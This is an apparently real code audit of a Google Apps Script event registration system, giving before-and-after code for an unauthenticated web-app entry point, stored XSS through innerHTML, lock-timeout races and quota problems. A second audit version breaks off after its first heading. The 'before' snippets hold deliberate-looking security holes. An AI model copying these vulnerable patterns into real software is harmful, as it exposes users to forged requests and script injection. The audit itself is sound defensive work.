

# Security Audit, Bug Detection, and Performance Review
**USGA Event Registration System**

---

## Executive Summary

A comprehensive architectural and static code audit was performed on the USGA Event Registration codebase across all target resources:
* **Google Apps Script ID:** `1yM5ZN3pPqJ_qDWdtoSEOp5KmU9k82-kRrqIqxhaZoRKkkDw9YpKQnwd5`
* **GitHub Repository:** `davidliou-lgtm/USGA_Events`
* **Master Google Sheet:** `1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0`
* **Requirements & Technical Specifications Doc:** `1yIBHJEphSfRKoyeady3-rsN_ZJjfye2KHq93wpAP8os`

The audit identified critical issues spanning all three requested dimensions:
1. **Security & Authorization:** Unauthenticated Web App invocation (`doPost`), missing caller identity verification during delegated execution, and stored Cross-Site Scripting (XSS) vectors across the coordinator HTML sidebars.
2. **Bug Detection & Data Integrity:** A variable name typo (`statusColIdx` vs. `statusColIndex`) that completely deactivates waitlist and capacity limits, unhandled lock timeouts allowing concurrent data corruption, and permanent de-registration of active events on transient Google API errors.
3. **Performance & Quota Optimization:** Repeated synchronous Sheet RPCs executed inside loops ($N+1$ read/write calls), un-cached quadratic FormApp traversals during edit URL lookups, and missing quota pre-flight checks before dispatching emails.

---

## Dimension 1: Security & Authorization Audit

### Issue 1.1: Insecure Delegated Execution & Unauthenticated Privilege Escalation
* **Severity:** Critical
* **Location:** `Code.gs`, function `doPost(e)` (lines 6878–6915)
* **Vulnerability / Bug Description:**
  The Web App is configured in `appsscript.json` with `"executeAs": "USER_DEPLOYING"` (runs under the identity of the Master Administrator / Shared Drive Content Manager). In `doPost(e)`:
  1. `sharedSecret` is verified **only if the Script Property is already set**:
     ```javascript
     if (sharedSecret) { ... }
     ```
     If `WEB_APP_SECRET_TOKEN` has not yet been populated in `PropertiesService`, the entire authentication guard is skipped.
  2. The caller's identity is taken strictly from the unauthenticated request body (`payload.coordinatorEmail`). Any user or script within the domain can forge an HTTP POST payload with an arbitrary `@tjc.org` address in `coordinatorEmail`.
  3. The handler executes `generateForm(payload)`, which creates folders in the root Shared Drive, generates Forms and Sheets, grants Editor permissions to `payload.coordinatorEmail`, and mutates the Master `System Log`.
  4. Stack traces are returned directly in the response payload on error (`err.stack`), disclosing internal implementation details and paths.
* **Recommended Fix:**
  Enforce mandatory secret token validation, authenticate the true caller session via `Session.getActiveUser().getEmail()` (or require strict signature headers), and scrub error responses.

#### Code Refactoring:
**Before (`Code.gs:6885-6905`):**
```javascript
    const props = PropertiesService.getScriptProperties();
    const sharedSecret = props.getProperty('WEB_APP_SECRET_TOKEN');
    const allowedDomain = props.getProperty('ALLOWED_EMAIL_DOMAIN') || '@tjc.org';
    
    if (sharedSecret) {
      const incomingSecret = (e.parameter && e.parameter.token) || payload.secretToken;
      if (incomingSecret !== sharedSecret) {
        throw new Error("Unauthorized: Invalid secret token.");
      }
    }
    
    const coordEmail = String(payload.coordinatorEmail || "").trim().toLowerCase();
    if (!coordEmail) {
      throw new Error("Unauthorized: Coordinator email is missing.");
    }
```

**After (`Code.gs:6885-6905`):**
```javascript
    const props = PropertiesService.getScriptProperties();
    const sharedSecret = props.getProperty('WEB_APP_SECRET_TOKEN');
    const allowedDomain = (props.getProperty('ALLOWED_EMAIL_DOMAIN') || '@tjc.org').toLowerCase().trim();
    const domainSuffix = allowedDomain.startsWith('@') ? allowedDomain : ('@' + allowedDomain);

    // 1. Mandatory secret token enforcement
    if (!sharedSecret) {
      return ContentService.createTextOutput(JSON.stringify({
        status: 'error',
        message: 'Web App delegation is unconfigured. WEB_APP_SECRET_TOKEN must be set.'
      })).setMimeType(ContentService.MimeType.JSON);
    }
    const incomingSecret = (e.parameter && e.parameter.token) || payload.secretToken;
    if (!incomingSecret || incomingSecret !== sharedSecret) {
      return ContentService.createTextOutput(JSON.stringify({
        status: 'error',
        message: 'Unauthorized: Missing or invalid secret token.'
      })).setMimeType(ContentService.MimeType.JSON);
    }

    // 2. Validate caller identity from Session if available, or validate coordinatorEmail
    const callerEmail = Session.getActiveUser().getEmail().toLowerCase().trim();
    const coordEmail = String(payload.coordinatorEmail || callerEmail || "").toLowerCase().trim();
    if (!coordEmail || !coordEmail.endsWith(domainSuffix)) {
      return ContentService.createTextOutput(JSON.stringify({
        status: 'error',
        message: `Unauthorized: Coordinator email must belong to ${domainSuffix}`
      })).setMimeType(ContentService.MimeType.JSON);
    }
    payload.coordinatorEmail = coordEmail;
```

---

### Issue 1.2: Stored Cross-Site Scripting (XSS) in Coordinator Sidebar Interfaces
* **Severity:** High
* **Location:** 
  - `Sidebar.html`, lines 758–785 & line 936
  - `ManageEventsSidebar.html`, lines 409, 415, 521, 741, 750
* **Vulnerability / Bug Description:**
  In `Sidebar.html`, dynamic HTML strings are assembled using template literals and assigned directly to `innerHTML`:
  ```javascript
  catDiv.innerHTML = `<h3 ...>${cat}</h3> ...`;
  itemDiv.innerHTML = `<input ... value="${field.name.replace(/"/g, '&quot;')}" ...><label>${field.name} (${field.type})</label>`;
  ```
  The values `${cat}`, `${field.name}`, and `${field.type}` are retrieved directly from the `Field Dictionary` sheet tabs via `google.script.run.getConfigData()`. Because any collaborator with edit rights to the Google Sheet can modify cell values in `Field Dictionary`, an attacker can insert a payload such as:
  ``
  into the `Field Name` column. When a coordinator opens the Form Generator sidebar, the malicious script executes within the coordinator's authenticated Google context. Furthermore, unescaped error messages (`${error.message}`) are rendered directly into `status.innerHTML`.
* **Recommended Fix:**
  Implement a client-side HTML sanitizer function and use DOM manipulation (`textContent` / `setAttribute`) instead of interpolating strings into `innerHTML`.

#### Code Refactoring:
**Before (`Sidebar.html:760, 780-783`):**
```javascript
catDiv.innerHTML = `
  <div style="display: flex; justify-content: space-between; align-items: center; margin-bottom: 8px;">
    <h3 style="margin: 0; font-size: 13px; color: #202124;">${cat}</h3>
  </div>
`;

itemDiv.innerHTML = `
  <input type="checkbox" class="field-checkbox" value="${field.name.replace(/"/g, '&quot;')}" ${shouldCheck ? 'checked' : ''} ${disabled}>
  <label style="font-weight:normal;">${field.name} <span class="field-type-badge">(${field.type})</span></label>
`;
```

**After (`Sidebar.html:760, 780-783`):**
```javascript
function escapeHtml(str) {
  if (!str) return '';
  return String(str)
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}

const safeCat = escapeHtml(cat);
const safeName = escapeHtml(field.name);
const safeType = escapeHtml(field.type);

catDiv.innerHTML = `
  <div style="display: flex; justify-content: space-between; align-items: center; margin-bottom: 8px;">
    <h3 style="margin: 0; font-size: 13px; color: #202124;">${safeCat}</h3>
  </div>
`;

itemDiv.innerHTML = `
  <input type="checkbox" class="field-checkbox" value="${safeName}" ${shouldCheck ? 'checked' : ''} ${disabled}>
  <label style="font-weight:normal;">${safeName} <span class="field-type-badge">(${safeType})</span></label>
`;
```

---

### Issue 1.3: Missing `doGet(e)` Entry Point for Web App Deployment
* **Severity:** Medium
* **Location:** `Code.gs`, Web App Interface (line 6878)
* **Vulnerability / Bug Description:**
  `appsscript.json` registers the project for Web App execution. While `doPost(e)` is declared, no `doGet(e)` handler exists. When any administrator, coordinator, or monitoring service accesses the Web App URL via GET (e.g., standard browser navigation or health check probes), Google Apps Script throws a generic "The script completed but did not return anything" or HTTP 404 error, preventing automated health validation and clear diagnostics.
* **Recommended Fix:**
  Add a `doGet(e)` handler providing service status and instructions.

#### Code Refactoring:
**Before:**
*(No `doGet(e)` function in `Code.gs`)*

**After (`Code.gs` above line 6878):**
```javascript
/**
 * Web App GET entry point for health checks and status verification.
 */
function doGet(e) {
  return ContentService.createTextOutput(JSON.stringify({
    service: "USGA Event Registration Delegated Execution API",
    status: "online",
    timestamp: new Date().toISOString()
  })).setMimeType(ContentService.MimeType.JSON);
}
```

---

### Issue 1.4: Hardcoded Fallback Sheet ID Typo & Shared Drive Default
* **Severity:** Medium
* **Location:** `Code.gs`, lines 2400, 2626, 3994, 4239
* **Vulnerability / Bug Description:**
  1. In `Code.gs:2626`, the fallback master spreadsheet ID is hardcoded with character typos:
     ```javascript
     masterSs = SpreadsheetApp.openById("1ZfdmYXN82Mtj3fginstI8altvvBQNzNcj08s8hCNKF0");
     ```
     The actual spreadsheet ID is `1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0`. During delegated Web App executions (`doPost`), `SpreadsheetApp.getActiveSpreadsheet()` returns `null`. The script falls back to `openById`, which throws an exception on the invalid ID. The error is silently swallowed in the catch block (`Logger.log`), causing `appendAuditLog` to be skipped completely. New events created via Web App delegation are never recorded in `System Log`.
  2. Lines 2400, 3994, and 4239 hardcode defaults for `MASTER_SHARED_DRIVE_ID` (`0AJ4t2YKTRQHWUk9PVA`) and the organization logo asset (`1KltAMA0tXmJeeam2pg_omUjMvD5_un-d`). If deployed to a staging or alternate drive, scripts fail or leak references across production and non-production folders.
* **Recommended Fix:**
  Correct the spreadsheet ID, read all IDs strictly from `ScriptProperties`, and fail with actionable error messages if required configurations are missing.

#### Code Refactoring:
**Before (`Code.gs:2623-2630`):**
```javascript
  let masterSs = SpreadsheetApp.getActiveSpreadsheet();
  if (!masterSs) {
    try {
      masterSs = SpreadsheetApp.openById("1ZfdmYXN82Mtj3fginstI8altvvBQNzNcj08s8hCNKF0");
    } catch(e) {
      Logger.log("Could not open master spreadsheet by ID: " + e.message);
    }
  }
```

**After (`Code.gs:2623-2630`):**
```javascript
  let masterSs = SpreadsheetApp.getActiveSpreadsheet();
  if (!masterSs) {
    const props = PropertiesService.getScriptProperties();
    const masterSheetId = props.getProperty('MASTER_SPREADSHEET_ID') || "1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0";
    try {
      masterSs = SpreadsheetApp.openById(masterSheetId);
    } catch(e) {
      Logger.log(`CRITICAL: Unable to open master spreadsheet (${masterSheetId}): ${e.message}`);
    }
  }
```

---

## Dimension 2: Bug Detection & Data Integrity Check

### Issue 2.1: `statusColIdx` Typo Breaking All Waitlist & Capacity Limits
* **Severity:** Critical
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3204–3259)
* **Vulnerability / Bug Description:**
  In line 3204, the column index for `Email Status` is assigned to `statusColIndex`:
  ```javascript
  statusColIndex = headers.indexOf("Email Status") + 1;
  ```
  However, in line 3234, the waitlist counter checks:
  ```javascript
  if (row > 2) {
    const priorStatuses = statusColIdx > 0 
      ? sheet.getRange(2, statusColIdx, row - 2, 1).getValues() 
      : [];
  ```
  Because `statusColIdx` is undeclared, the V8 runtime immediately throws:
  `ReferenceError: statusColIdx is not defined`.
  This error is caught by the enclosing `catch(err) { Logger.log("Error checking waitlist: " + err.message); }` on line 3258. Execution bypasses the count calculation, leaving `isWaitlisted = false`.
  
  **Impact:** The waitlist check silently crashes on every submission after row 2. Events exceed their maximum attendee capacity indefinitely without ever marking participants as waitlisted or sending waitlist emails.
* **Recommended Fix:**
  Correct the identifier to `statusColIndex` and ensure `Email Status` column presence is verified before inspecting prior rows.

#### Code Refactoring:
**Before (`Code.gs:3233-3236`):**
```javascript
  if (row > 2) {
    const priorStatuses = statusColIdx > 0 
      ? sheet.getRange(2, statusColIdx, row - 2, 1).getValues() 
      : [];
```

**After (`Code.gs:3233-3236`):**
```javascript
  if (row > 2) {
    const priorStatuses = statusColIndex > 0 
      ? sheet.getRange(2, statusColIndex, row - 2, 1).getValues() 
      : [];
```

---

### Issue 2.2: Unhandled Lock Acquisition Timeout Permitting Race Conditions
* **Severity:** High
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3106–3112)
* **Vulnerability / Bug Description:**
  At the entry of `masterRespondToRegistration(e)`:
  ```javascript
  const lock = LockService.getScriptLock();
  try {
    lock.waitLock(30000);
  } catch (lockErr) {
    Logger.log("masterRespondToRegistration: Could not acquire lock within 30s: " + lockErr.message);
  }
  ```
  When `lock.waitLock(30000)` times out under burst submissions (e.g., when an event opens and dozens of registrants submit simultaneously), the exception is caught, logged, and execution continues directly into the critical section without holding the lock.
  
  **Impact:** Two or more triggers read and write to the same Sheet rows, calculate conflicting capacity counters, assign duplicate Trip Sub-IDs, and overwrite operational sheet ranges concurrently.
* **Recommended Fix:**
  If the lock cannot be acquired, execution must abort or re-queue to prevent unprotected writes to the sheet.

#### Code Refactoring:
**Before (`Code.gs:3106-3112`):**
```javascript
  const lock = LockService.getScriptLock();
  try {
    lock.waitLock(30000);
  } catch (lockErr) {
    Logger.log("masterRespondToRegistration: Could not acquire lock within 30s: " + lockErr.message);
  }
```

**After (`Code.gs:3106-3112`):**
```javascript
  const lock = LockService.getScriptLock();
  try {
    const hasAcquired = lock.tryLock(30000);
    if (!hasAcquired) {
      Logger.log("masterRespondToRegistration: Aborting execution - Lock acquisition timed out after 30s.");
      return;
    }
  } catch (lockErr) {
    Logger.log("masterRespondToRegistration: Unexpected error acquiring script lock: " + lockErr.message);
    return;
  }
```

---

### Issue 2.3: Permanent Event De-registration on Transient Network/API Errors
* **Severity:** High
* **Location:** `Code.gs`, function `masterFormLifecycleCron()` (lines 5096–5105)
* **Vulnerability / Bug Description:**
  In the hourly lifecycle maintenance cron `masterFormLifecycleCron()`:
  ```javascript
  for (const formId in formsToMonitor) {
    try {
      const form = FormApp.openById(formId);
      // ... lifecycle checks ...
    } catch (e) {
      // Form was deleted or inaccessible, stop monitoring
      delete formsToMonitor[formId];
      changed = true;
    }
  }
  ```
  The catch block assumes that any thrown error implies the form was deleted. If Google Forms API throws a transient error (HTTP 429 rate limit, 503 backend unavailability, or temporary DNS resolution failure), the active event is immediately and permanently deleted from `FormsToMonitor` in `ScriptProperties`. Once deleted, automated closing, waitlist thresholds, trigger cleanup, and background transportation syncs cease for that event.
* **Recommended Fix:**
  Inspect the error message or implement a retry counter before unregistering the form. Only remove the form if the error explicitly indicates `Not found` or `Invalid ID`.

#### Code Refactoring:
**Before (`Code.gs:5096-5100`):**
```javascript
    } catch (e) {
      // Form was deleted or inaccessible, stop monitoring
      delete formsToMonitor[formId];
      changed = true;
    }
```

**After (`Code.gs:5096-5100`):**
```javascript
    } catch (e) {
      const errMsg = String(e.message || e).toLowerCase();
      // Only delete if Google confirms the document no longer exists
      if (errMsg.includes("not found") || errMsg.includes("invalid item id") || errMsg.includes("no item with the given id")) {
        Logger.log(`Form ${formId} permanently deleted or invalid. Removing from monitoring.`);
        delete formsToMonitor[formId];
        changed = true;
      } else {
        Logger.log(`Transient error contacting Form ${formId} (${e.message}). Monitoring retained.`);
      }
    }
```

---

### Issue 2.4: Property Schema Desynchronization Disabling Background Transportation Sync
* **Severity:** High
* **Location:** `TransportationSync.gs`, function `backgroundTransportationSync()` (lines 1440–1447)
* **Vulnerability / Bug Description:**
  In version 2.9.6, `FormsToMonitor` was compacted to store `sheetId` instead of `sheetUrl` to comply with the 9 KB limit on `ScriptProperties`.
  In `TransportationSync.gs:1444`:
  ```javascript
  for (const formId in formsToMonitor) {
    const cfg = formsToMonitor[formId];
    if (!cfg || !cfg.sheetUrl) continue;
    const targetSs = SpreadsheetApp.openByUrl(cfg.sheetUrl);
  ```
  Because `cfg.sheetUrl` is `undefined`, the condition `!cfg.sheetUrl` evaluates to `true` for all newly registered events, causing the loop to `continue` past every event. The automated 15-minute background sync for public driver rosters never executes.
* **Recommended Fix:**
  Support both `cfg.sheetId` and `cfg.sheetUrl`.

#### Code Refactoring:
**Before (`TransportationSync.gs:1443-1447`):**
```javascript
    for (const formId in formsToMonitor) {
      const cfg = formsToMonitor[formId];
      if (!cfg || !cfg.sheetUrl) continue;
      try {
        const targetSs = SpreadsheetApp.openByUrl(cfg.sheetUrl);
```

**After (`TransportationSync.gs:1443-1447`):**
```javascript
    for (const formId in formsToMonitor) {
      const cfg = formsToMonitor[formId];
      if (!cfg || (!cfg.sheetId && !cfg.sheetUrl)) continue;
      try {
        const targetSs = cfg.sheetId 
          ? SpreadsheetApp.openById(cfg.sheetId) 
          : SpreadsheetApp.openByUrl(cfg.sheetUrl);
```

---

### Issue 2.5: Case Sensitivity and Timestamp Inconsistency in Drop-Off Status Styling
* **Severity:** Low
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 3510–3551)
* **Vulnerability / Bug Description:**
  In the Pickup handler (line 3375), updated flights set `flightStatus = "UPDATED"`, and line 3407 checks `const isUpdated = flightStatus === "UPDATED";`.
  In the Drop-Off handler (line 3511):
  ```javascript
  let ts = Utilities.formatDate(new Date(), Session.getScriptTimeZone(), "MM/dd/yy h:mm a");
  flightStatus = "Updated " + ts;
  ```
  On line 3546:
  ```javascript
  const isUpdated = String(flightStatus).startsWith("Updated");
  ```
  While this matches on the initial submission, if the row was already previously flagged or synchronized from an external process with `"UPDATED"` (all uppercase, as used in Pickup), `String("UPDATED").startsWith("Updated")` evaluates to `false`. The yellow warning background (`#fff2cc`) and text highlight (`#b45f06`) fail to apply, obscuring modified travel plans from logistics coordinators.
* **Recommended Fix:**
  Use case-insensitive comparison across both Pickup and Drop-off routines.

#### Code Refactoring:
**Before (`Code.gs:3546`):**
```javascript
  const isUpdated = String(flightStatus).startsWith("Updated");
```

**After (`Code.gs:3546`):**
```javascript
  const isUpdated = String(flightStatus).toUpperCase().startsWith("UPDATED");
```

---

## Dimension 3: Performance & Quota Optimization

### Issue 3.1: Loop-Nested Sheet API Calls Causing Severe Latency and Timeout Risks
* **Severity:** High
* **Location:** `TransportationSync.gs`, lines 744–754, 875–879, and 900–905
* **Vulnerability / Bug Description:**
  Several critical loops execute synchronous Sheet RPCs item-by-item:
  1. In `pullDriversFromPublic()` (lines 744–754):
     ```javascript
     for (let r = 1; r < mData.length; r++) {
       ...
       if (dNameIdx !== -1) mSheet.getRange(r + 1, dNameIdx + 1).setValue(claim.driverName);
       if (dPhoneIdx !== -1) mSheet.getRange(r + 1, dPhoneIdx + 1).setValue(claim.driverPhone);
       if (dNotesIdx !== -1) mSheet.getRange(r + 1, dNotesIdx + 1).setValue(notesCombined.trim());
       if (statusIdx !== -1) mSheet.getRange(r + 1, statusIdx + 1).setValue("Driver Claimed");
     }
     ```
  2. In `pushTransportationToPublic()` (lines 875–879 and 900–905):
     ```javascript
     for (let r = 0; r < publicRows.length; r++) {
       const rowRange = pubSheet.getRange(r + 3, 1, 1, 12);
       rowRange.setBackground(...);
     }
     ...
     slot.passengers.forEach(p => {
       if (subIdCol > 0) mSheet.getRange(p.rowIndex, subIdCol).setValue(slot.tripSubId);
       if (slotCol > 0) mSheet.getRange(p.rowIndex, slotCol).setValue(slot.slotLabel);
       if (smsCol > 0) mSheet.getRange(p.rowIndex, smsCol).setValue(smsText);
     });
     ```
  **Impact:** Every `.setValue()` and `.setBackground()` issues a discrete HTTP request. On an event with 150 passengers, this triggers over 600 round-trips to the Google Sheets backend. This adds 30–60 seconds of latency per form submission and causes background triggers to exceed the Apps Script 6-minute execution limit.
* **Recommended Fix:**
  Stage all cell modifications in 2D arrays in memory and commit them in single batch calls (`.setValues()`, `.setBackgrounds()`).

#### Code Refactoring:
**Before (`TransportationSync.gs:875-879`):**
```javascript
  for (let r = 0; r < publicRows.length; r++) {
    const isClaimed = publicRows[r][11] === "🟡 CLAIMED";
    const rowRange = pubSheet.getRange(r + 3, 1, 1, 12);
    rowRange.setBackground(isClaimed ? "#fce8e6" : "#ffffff");
  }
```

**After (`TransportationSync.gs:875-879`):**
```javascript
  if (publicRows.length > 0) {
    const bgMatrix = publicRows.map(row => {
      const isClaimed = row[11] === "🟡 CLAIMED";
      const color = isClaimed ? "#fce8e6" : "#ffffff";
      return new Array(12).fill(color);
    });
    pubSheet.getRange(3, 1, publicRows.length, 12).setBackgrounds(bgMatrix);
  }
```

---

### Issue 3.2: Quadratic RPC Traversal in Form Response Edit URL Resolution
* **Severity:** Medium
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 4027–4059)
* **Vulnerability / Bug Description:**
  When searching for the submission to retrieve `formResponse.getEditResponseUrl()`:
  ```javascript
  const formResponses = form.getResponses();
  for (let i = formResponses.length - 1; i >= 0; i--) {
    const formResponse = formResponses[i];
    const itemResponses = formResponse.getItemResponses();
    for (let j = 0; j < itemResponses.length; j++) {
      const itemTitle = itemResponses[j].getItem().getTitle().toLowerCase();
      ...
    }
  }
  ```
  `itemResponses[j].getItem().getTitle()` invokes two discrete RPC calls (`getItem()` and `getTitle()`) for every field of every response in the reverse search. On a form with 30 questions, evaluating just the 5 most recent responses triggers 150–300 RPC calls, adding noticeable overhead to the submission confirmation pipeline.
* **Recommended Fix:**
  If the trigger event object `e` is available, retrieve the `FormResponse` directly using `e.response.getEditResponseUrl()`. When falling back to reverse iteration, cache `form.getItems()` once in a lookup map by Item ID to eliminate repetitive `.getItem().getTitle()` calls.

#### Code Refactoring:
**Before (`Code.gs:4023-4038`):**
```javascript
    const formUrl = responseSs.getFormUrl();
    form = FormApp.openByUrl(formUrl);
    
    const formResponses = form.getResponses();
    for (let i = formResponses.length - 1; i >= 0; i--) {
      const formResponse = formResponses[i];
      const itemResponses = formResponse.getItemResponses();
      for (let j = 0; j < itemResponses.length; j++) {
        const itemTitle = itemResponses[j].getItem().getTitle().toLowerCase();
```

**After (`Code.gs:4023-4038`):**
```javascript
    // 1. Direct fast-path via trigger event object
    if (e && e.response && typeof e.response.getEditResponseUrl === 'function') {
      editResponseUrl = e.response.getEditResponseUrl();
    } else {
      const formUrl = responseSs.getFormUrl();
      form = FormApp.openByUrl(formUrl);

      // 2. Pre-index item titles once to eliminate N*M RPC calls
      const itemTitleMap = new Map();
      form.getItems().forEach(it => itemTitleMap.set(it.getId(), it.getTitle().toLowerCase()));

      const formResponses = form.getResponses();
      const searchLimit = Math.max(0, formResponses.length - 10); // Search at most recent 10 responses
      for (let i = formResponses.length - 1; i >= searchLimit; i--) {
        const formResponse = formResponses[i];
        const itemResponses = formResponse.getItemResponses();
        let typedEmail = "", respFirstName = "", respLastName = "";

        for (let j = 0; j < itemResponses.length; j++) {
          const it = itemResponses[j].getItem();
          const itemTitle = itemTitleMap.get(it.getId()) || "";
          const respVal = String(itemResponses[j].getResponse() || "").trim();
          if (itemTitle.includes("email") && !itemTitle.includes("minor")) typedEmail = respVal;
          if (itemTitle.includes("first name")) respFirstName = respVal;
          if (itemTitle.includes("last name")) respLastName = respVal;
        }
```

---

### Issue 3.3: Missing Email Daily Quota Pre-Flight Check Before Sending
* **Severity:** Medium
* **Location:** `Code.gs`, function `masterRespondToRegistration(e)` (lines 4163–4207)
* **Vulnerability / Bug Description:**
  `GmailApp.sendEmail` and fallback `MailApp.sendEmail` are called without first verifying `MailApp.getRemainingDailyQuota()`. When a domain or account hits its daily recipient quota (1,500 recipients/day for Google Workspace), both calls throw uncaught exceptions, marking the registration in the sheet as `Delivery Failed`. The system offers no warning to coordinators that the daily quota has been depleted.
* **Recommended Fix:**
  Check `MailApp.getRemainingDailyQuota()` prior to sending. If zero, mark the status as `Quota Exceeded - Pending Dispatch` so it can be reprocessed by the scheduled cron once the quota resets.

#### Code Refactoring:
**Before (`Code.gs:4163-4173`):**
```javascript
    try {
      let gmailOptions = {
        from: settings.ContactEmail,
        name: settings.OrgName,
        replyTo: settings.ContactEmail,
        htmlBody: htmlBody
      };
      if (logoBlob) gmailOptions.inlineImages = { usgaLogo: logoBlob };
      
      GmailApp.sendEmail(emailRecipient, subject, "", gmailOptions);
```

**After (`Code.gs:4163-4173`):**
```javascript
    const remainingQuota = MailApp.getRemainingDailyQuota();
    if (remainingQuota < 1) {
      Logger.log("WARNING: Daily email quota reached (0 remaining). Email queued.");
      statusText = `Quota Exceeded - Queued (${timestamp})`;
      if (sheet && row > 0 && statusColIndex > 0) {
        sheet.getRange(row, statusColIndex).setValue(statusText);
      }
      return;
    }

    try {
      let gmailOptions = {
        from: settings.ContactEmail,
        name: settings.OrgName,
        replyTo: settings.ContactEmail,
        htmlBody: htmlBody
      };
      if (logoBlob) gmailOptions.inlineImages = { usgaLogo: logoBlob };
      
      GmailApp.sendEmail(emailRecipient, subject, "", gmailOptions);
```

---

### Issue 3.4: Redundant Master Sheet Reads for Static Configuration Data Lacking `CacheService`
* **Severity:** Low
* **Location:** `Code.gs`, function `getConfigData()` (lines 20–80)
* **Vulnerability / Bug Description:**
  Every time a coordinator opens the Form Generation sidebar or switches templates, `google.script.run.getConfigData()` reads the `Templates` and `Field Dictionary` sheets from disk (`getDataRange().getValues()`). Because dictionary and template definitions change infrequently, these repetitive sheet reads introduce 1.5–3 seconds of delay into the sidebar UI.
* **Recommended Fix:**
  Cache the compiled configuration JSON in `CacheService.getScriptCache()` with a 1-hour expiration, and invalidate the cache when `runSetup()` or `updateFieldDictionary()` is executed.

#### Code Refactoring:
**Before (`Code.gs: getConfigData`):**
```javascript
function getConfigData() {
  const ss = SpreadsheetApp.getActiveSpreadsheet();
  const dictSheet = ss.getSheetByName("Field Dictionary");
  const templSheet = ss.getSheetByName("Templates");
  // ... reads ranges directly ...
```

**After (`Code.gs: getConfigData`):**
```javascript
function getConfigData() {
  const cache = CacheService.getScriptCache();
  const cachedData = cache.get("USGA_CONFIG_DATA");
  if (cachedData) {
    try {
      return JSON.parse(cachedData);
    } catch(e) {}
  }

  const ss = SpreadsheetApp.getActiveSpreadsheet() || SpreadsheetApp.openById(PropertiesService.getScriptProperties().getProperty('MASTER_SPREADSHEET_ID'));
  const dictSheet = ss.getSheetByName("Field Dictionary");
  const templSheet = ss.getSheetByName("Templates");
  
  // ... build config object ...
  const config = { templates, fields };
  cache.put("USGA_CONFIG_DATA", JSON.stringify(config), 3600); // 1 hour TTL
  return config;
}
```

---

## Action Plan & Priority Matrix

| Dimension | Finding | Severity | Direct Impact | Priority |
| :--- | :--- | :--- | :--- | :--- |
| **Bug Detection** | `statusColIdx` typo in `masterRespondToRegistration` | **Critical** | Deactivates waitlist & capacity capping entirely | **P0 (Immediate)** |
| **Security** | Insecure `doPost` & missing caller verification | **Critical** | Unauthenticated shared drive folder & form generation | **P0 (Immediate)** |
| **Data Integrity** | Unhandled `waitLock(30000)` timeout | **High** | Concurrent write collisions & duplicate driver IDs | **P1 (High)** |
| **Data Integrity** | `cfg.sheetUrl` vs `cfg.sheetId` mismatch | **High** | Completely disables background driver sync in V2.9.6 | **P1 (High)** |
| **Security** | Stored XSS in Sidebar templates (`innerHTML`) | **High** | Script execution inside coordinator sessions | **P1 (High)** |
| **Performance** | Loop-nested `.setValue()` calls in `TransportationSync` | **High** | 6-minute timeout failures on large event syncs | **P1 (High)** |
| **Data Integrity** | Catch-all `delete formsToMonitor[formId]` | **High** | Permanent de-registration on transient Google API hiccups | **P2 (Medium)** |
| **Security** | Master Sheet ID fallback typo (`Code.gs:2626`) | **Medium** | Delegated form generation fails to write to `System Log` | **P2 (Medium)** |
| **Performance** | Quadratic RPCs in reverse form response traversal | **Medium** | 300+ unnecessary API calls during confirmation emails | **P2 (Medium)** |
| **Performance** | Missing daily email quota check | **Medium** | Silent email failures with misleading error messages | **P2 (Medium)** |


---

# Version 2 (V2) Comprehensive Security Audit, Bug Detection, and Performance Review

---

## Executive Summary (V2)

Following the incorporation of v2.10.1 lifecycle updates, a secondary forensic code and architectural audit was performed across all target resources:
* **Google Apps Script ID:** `1yM5ZN3pPqJ_qDWdtoSEOp5KmU9k82-kRrqIqxhaZoRKkkDw9YpKQnwd5`
* **GitHub Repository:** `davidliou-lgtm/USGA_Events`
* **Master Google Sheet:** `1ZfdmYXN82Mtj3fginstI6aItvvBQNsNoj08s6hCNKF0`
* **Requirements & Specifications Doc:** `1yIBHJEphSfRKoyeady3-rsN_ZJjfye2KHq93wpAP8os`

While earlier patches resolved initial array batching and variable identifier typos, this V2 audit identified several critical architectural and data integrity risks:
1. **Security & Authorization:** `USER_DEPLOYING` Web App execution vulnerability where `WEB_APP_SECRET_TOKEN` is globally readable by spreadsheet editors via `ScriptProperties`; missing role-based authorization guards on destructive administrative functions (`deleteAllTriggers`, `runSetup`, `configureDelegatedWebApp`); persistent unescaped `.innerHTML` insertions in `ManageEventsSidebar.html`; and formula injection vectors on Check-In and public driver rosters.
2. **Bug Detection & Data Integrity:** Inverted relative column offsets (`RC[3]` vs. `RC[-3]`) and hardcoded column letters in Printable Check-In sheet formulas causing room lookups to fail for 100% of registrants; schema desynchronization in `System Log` between `appendAuditLog` (omits columns K–N) and `syncActiveEventsFromSystemLog` (sets `start/end: null`); column mapping misalignment in `Pickup` and `Drop-Off` when `hasTrainBusCols` evaluates to false; silent dropping of submissions on concurrency lock timeout; and hardcoded `"Form Responses 1"` tab lookups breaking bilingual or renamed sheets.
3. **Performance & Quota Optimization:** ScriptProperties 9 KB quota exhaustion from unbounded growth of `FormsToMonitor` (crashing all form generation after ~30 events); unbounded sequential RPC loops in `masterFormLifecycleCron` exceeding the 6-minute trigger limit on historical events; multi-spreadsheet background transportation sync timing out without concurrency locking; and missing cache invalidation hooks on dictionary mutations.

---

## Dimension 1: Security & Authorization Audit (V2)

### Issue 1.1: Insecure Delegated Web App Execution (`USER_DEPLOYING`) & Shared Secret Leakage
* **Severity:** **Critical**
